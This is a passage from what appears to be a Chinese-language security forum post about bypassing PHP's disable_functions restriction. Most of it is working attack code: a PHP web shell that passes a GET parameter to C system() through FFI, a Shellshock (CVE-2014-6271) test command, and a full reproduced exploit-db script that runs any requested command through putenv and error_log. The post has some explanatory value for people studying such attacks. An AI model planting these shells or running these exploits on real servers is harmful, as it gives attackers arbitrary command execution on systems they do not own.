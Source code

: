 使用FFI::cdef创建一个新的FFI对象  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e5bc4069622e8f5115a3d6f1da21ce737d3c743f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e5bc4069622e8f5115a3d6f1da21ce737d3c743f.png)

通过c语言的system去执行,绕过disable functions。  
将返回结果写入/tmp/SD，并在每次读出结果后用unlink()函数删除它。

```php
<?php
$cmd=$_GET['cmd'];
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("$cmd > /tmp/SD");       //由GET传参的任意代码执行
echo file_get_contents("/tmp/SD");
@unlink("/tmp/SD");
?>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-590a157f26e1522e1619d7509649cf033f41aede.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-590a157f26e1522e1619d7509649cf033f41aede.png)

利用Bash Shellshock(CVE-2014-6271)破壳漏洞
------------------------------------

利用条件php &lt; 5.6.2 &amp; bash &lt;= 4.3（破壳）

Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

简单测试是否存在破壳漏洞:  
命令行输入`env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`  
如果输出了`vulnerable`，则说明存在bash破壳漏洞  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-816821af662f38b1f35ce71d74e06ae893f78191.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-816821af662f38b1f35ce71d74e06ae893f78191.png)

[EXP](https://www.exploit-db.com/exploits/35146)如下:

```php
<?php 
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions) 
# Google Dork: none 
# Date: 10/31/2014 
# Exploit Author: Ryan King (Starfall) 
# Vendor Homepage: http://php.net 
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror 
# Version: 5.* (tested on 5.6.2) 
# Tested on: Debian 7 and CentOS 5 and 6 
# CVE: CVE-2014-6271 

function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283 
   $tmp = tempnam(".","data"); 
   putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&amp;1"); 
   // In Safe Mode, the user may only alter environment variableswhose names 
   // begin with the prefixes supplied by this directive. 
   // By default, users will only be able to set environment variablesthat 
   // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty, 
   // PHP will let the user modify ANY environment variable! 
   //mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail 
   error_log('a',1);
   $output = @file_get_contents($tmp); 
   @unlink($tmp); 
   if($output != "") return $output; 
   else return "No output, or not vuln."; 
} 
echo shellshock($_REQUEST["cmd"]); 
?>     
```